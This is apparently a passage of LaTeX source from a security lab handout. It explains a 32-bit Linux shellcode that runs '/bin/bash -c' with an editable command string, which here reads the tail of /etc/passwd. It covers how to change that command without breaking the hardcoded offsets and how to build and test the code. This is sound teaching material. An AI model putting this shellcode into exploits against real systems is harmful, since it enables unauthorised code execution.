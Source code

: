 The shellcode runs the \texttt{"/bin/bash"} shell program (Line~), 
but it is given two arguments, \texttt{"-c"} (Line~) and 
a command string (Line~). This indicates that the shell program
will run the commands in the second argument. 
The \texttt{*} at the end of these strings will be replaced by 
one byte of \texttt{0x00} by the shellcode, to mark 
the end of each string. 

\begin{lstlisting}[language=python]
hellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"              
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

If we want the shellcode to run some other commands,
we just need to modify the command string in Line~.
However, when making changes, we need to 
make sure not to change the length of this string, because the 
starting position of the placeholder for the \texttt{argv[]} array,
which is right after the command string,
is hardcoded in the binary portion of the shellcode. If 
we change the length, we need to modify the binary part. 
To keep the star at the end of this string at the same position, 
you can add or delete spaces.


These two Python programs will
write the binary shellcode to \texttt{codefile\_32}
and \texttt{codefile\_64}, respectively. You can then use 
\texttt{call\_shellcode} to execute the shellcode in them. 

\newcommand{\pointright}{\ding{221}}

\begin{lstlisting}
// Generate the shellcode binary 
$ ./shellcode_32.py    (*@\pointright@*) generate codefile_32
$ ./shellcode_64.py    (*@\pointright@*) generate codefile_64

// Compile call_shellcode.c
$ make                 (*@\pointright@*) generate a32.out and a64.out 

// Test the shellcode 
$ a32.out              (*@\pointright@*) execute the shellcode in codefile_32
$ a64.out              (*@\pointright@*) execute the shellcode in codefile_64
\end{lstlisting}
 

